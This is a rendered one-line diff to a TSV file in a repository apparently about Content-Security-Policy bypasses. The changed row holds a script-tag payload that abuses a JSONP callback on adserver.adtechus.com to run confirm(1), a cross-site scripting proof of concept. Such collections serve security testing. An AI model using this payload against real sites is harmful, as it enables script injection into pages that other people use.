

Before and after one commit to asuspctow/csp, a TSV file: domin.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update domin.tsv

```diff
--- a/domin.tsv
+++ b/domin.tsv
-A176: adserver.adtechus.com <script src="https://adserver.adtechus.com/pubapi/3.0/9857.1/3792195/0/170/ADTECH;noperf=1;cmd=bid;bidfloor=0.12;callback=confirm(1);//window.proper_d31c1
+A176: adserver.adtechus.com <script src="https://adserver.adtechus.com/pubapi/3.0/9857.1/3792195/0/170/ADTECH;noperf=1;cmd=bid;bidfloor=0.12;callback=confirm(1);//window.proper_d31c1>
```
